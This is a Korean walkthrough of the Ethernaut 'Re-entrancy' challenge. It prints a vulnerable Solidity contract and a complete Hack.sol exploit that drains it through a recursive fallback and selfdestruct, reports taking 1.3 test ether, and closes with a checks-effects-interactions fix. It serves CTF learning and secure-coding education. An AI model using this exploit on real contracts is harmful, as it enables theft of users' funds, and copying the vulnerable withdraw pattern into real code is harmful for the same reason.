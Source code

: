 문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Re-entrancy Problem

이번 문제의 목표는 컨트랙트에 모인 funds를 탈취하는 것이다. 우선 힌트를 확인해보자

- 신뢰할 수 없는 컨트랙트에서는 예상치 못한 곳에서 코드가 실행된다
- Fallback 함수
- Throw/revert Bubbling
- 다른 컨트랙트로 공격하기
- 콘솔 창 활용하기



**The DAO Hack** 사건으로 널리 알려진 재진입성 공격을 이번 10단계에서 체험해보자.



### 코드 분석

```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances; // 주소별로 금액을 관리
  // 기부를 받을 때, 호출되는 함수
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
  // 누가 얼마나 기부를 했는지 체크하는 함수
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  // 인출 함수
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

**donate** 함수를 통해서 외부로 부터 msg.value만큼 기부를 받는다. 이때, balances라는 mapping 구조를 만들어서 누가 얼마를 기부했는지를 주소별로 기부금액을 관리한다. 이때문에, **balanceOf **함수에서 누가 얼마를 기부했는지 확인이 가능하다. 마지막으로 **withdraw**함수가 있는데 이곳에 취약점이 존재한다. 첫번째 if 문에서 인출하려는 금액을 확인하고 두번째 if 문에서 폴백함수를 불러 amount만큼 금액을 인출하고 마지막으로 인출한 양(_amount)을 balances에서 차감한다.

즉, 외부 컨트랙트에서 withdraw 함수를 호출하면 수정된 balances의 기부금액이 차감되기 전이므로 인출이 몇 번이고 가능하다는 뜻이다. (아직 이해가 되지 않아도 괜찮다. 맨 아래 예방 할 수 있는 코드를 직접 실습해 본다면 감이 올 것이다.)

필자가 직접 작성한 코드보다 구글에서 돌아다니는 코드가 더 좋은 것 같아서 [인용](https://gist.github.com/pabloruiz55/9e3425880f084a3a3c28677224ab430d)했다. (주어진 코드를 어떻게 활용해야 하는지 모르겟다는 댓글에 대한 답변이 될 것 같다!)



---

#### Hack.sol

```javascript
contract Hack {
    address target;
    address owner;
   
    Reentrance re;
   
    function Hack(address _target) {	// target(Instance Address) 주소를 넣고 배포한다.
        target = _target;
        owner = msg.sender;	// 사실 필요 없지만, kill함수를 위해서 사용한다.
        re = Reentrance(target);
    }
    
    function attack() public payable {
        re.donate.value(0.1 ether)(this);	// 이것을 통해서 target에 기부를하고
        re.withdraw(0.1 ether);	// 기부한 금액만큼 인출한다
    }
   
    function() payable {
        re.withdraw(0.1 ether);
    }
    // ETH를 얼마나 가지고 있는지 조회할 수 있는 함수
    function ethBalance(address _who) public view returns(uint) {
      return _who.balance;
    }
    // kill 함수를 호출하면 Hack의 CA주소로 담긴 ETH가 owner의 주소로 이동한다. 
    function kill () {
        require(msg.sender == owner);
        selfdestruct(owner);
    }
}
```

우리는 **attack**함수를 통해서 target에 0.1이더를 기부하고 0.1이더를 이어서 인출하면 자동으로 폴백함수를 호출하기 때문에, 지속해서 인출을 시도 할 수 있다.



먼저 문제를 풀기 위해서 주어진 Instance address를 리믹스 브라우저에서 At Address로 불러오자



![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\reentrance01.png)

Hack 컨트랙트에서, InstanceAddress의 ethBalance를 체크해보면 기본적으로 1이더가 들어있는 것을 확인할 수 있다. 이후, 리믹스 상단 Value에 0.1이더를 기입하고 attack을 하면 0.1이더를 기부하고 이어서 기부금을 다시 인출하는데 그때 Hack에 있는 폴백함수를 실행시켜서 지속적으로 0.1이더씩 인출하게 된다. Hack의 CA에 제대로 ETH가 들어와 있는지 확인해 보려면 ethBalance에 Hack의 주소를 넣고 호출하면, 아래와 같이 이더 금액이 표시된다.

![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\reentrance02.png)

>필자의 경우, 1.1이더가 아니라 1.3이더가 있는 이유는 2번의 outofgas문제로 탈취하지 못한채 InstanceAddress에 2번 기부를 하였고 3번째 시도에 제대로 된 가스 계산을 통해서 전액을 탈취하는데 성공했다. 그러므로, attck 함수를 호출하는 경우 가스비를 잘 계산하여 함수를 호출하자!!



이후 Hack의 CA주소에 담긴 이더를 수금 하기 위해서 kill함수를 통해 소중한 이더를 나의 주소로 탈취하자.

 [1.3이더 가져오기](https://ropsten.etherscan.io/tx/0x3a335a244b29a19612f6302ce9d5b22e6f4a217352e41cf79ed7e6e7766cb348) 

![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\reentrance03.png)



그렇다면, 우리는 위와 같은 재진입성 문제를 막기 위해서는 어떻게 코딩을 해야 할까? 

송금과 관련하여 안전한 코딩을 위해서는 `Condition - Effects - Interation` 패턴을 지닌 `pull형 payable`을 사용해야한다. 



### Condition - Effects - Interation

> - Condition
>
>   함수를 실행하는 조건을 확인하고 조건이 유효하지 않을 때는 처리를 중단
>
> - Effects
>
>   상태를 업데이트 (ex : 경매일 경우, 반환 금액 여기 손봐야함 적절한 예시로)
>
> - Interaction
>
>   다른 컨트랙트에 메시지를 보낸다 (ex : 입찰금)



CEI패턴을 지키기 위해서는 처음에 주어지 코드를 아래와 같이 수정하면 된다.

```javascript
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      
      balances[msg.sender] -= _amount;
      
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
    }
  }
```

직접 리믹스 자바스크립트 VM환경에서 수정된 코드를 배포하여 실험을 해보면 확실하게 알 수 있다.



그럼, 다음번에는 11단계 Elevator에서 만나요!
